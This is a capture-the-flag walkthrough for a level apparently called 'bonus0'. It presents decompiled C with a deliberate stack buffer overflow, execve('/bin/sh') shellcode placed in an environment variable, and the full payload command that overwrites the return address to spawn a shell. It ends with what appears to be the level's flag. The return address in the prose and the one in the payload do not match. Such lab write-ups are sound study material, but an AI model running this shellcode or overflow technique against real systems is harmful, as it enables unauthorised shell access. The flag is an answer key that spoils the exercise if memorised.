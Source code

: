 ```C
#include <stdlib.h>
#include <string.h>

char	*p(char *s, char *str)                 
{
    /*
        Read max 4096 bytes and puts it in buffer.
        Replace the first '\n' by '\0'.
        Copy 20 first bytes from buffer to s.
    */
	char	buffer[4096];

	puts(str);
	read(0, buffer, 4096);
	*strchr(buffer, '\n') = 0;
	return (strncpy(s, buffer, 20));
}

char	*pp(char *buffer)
{
    /*
        Call p() twice.
        Copy first input a to buffer without limit check
        Puts a ' \0' at the end of the buffer.
        Add input b at the end of buffer.
    */
	char			b[20];
	char			a[20];
	unsigned int	len;

	p(a, " - ");
	p(b, " - ");
	strcpy(buffer, a);

	len = strlen(buffer);

	buffer[len] = ' ';
	buffer[len + 1] = 0;
	return (strcat(buffer, b));
}

int		main(void)
{
	char	buffer[42]; 

	pp(buffer);
	puts(buffer);
	return (0);
}
```

- let's add a env variable with our shellcode in it because input 2 looks a bit too small

```bash
export SHELLCODE=`python -c 'print("\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```


- We know want to fill first input in order to avoid the program to insert a '\0' in our input. (Put a \n just after to send the first input and get to second one right after)

- The second input will write 9 bytes of padding until getting to EIP register.
- We will now write the address of our env variable with the shellcode.
- We will then fill the second buffer with 7 bytes.

```bash
payload = (python -c "print '\x90' * 4095 + '\n' + '\x90' * 9 + '\xbf\xff\xf4\x78'[::-1] + '\x90' * 10"; cat) | ./bonus0

With 0xbffff378 the address of the SHELLCODE env variable found with getenv() in C.

cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
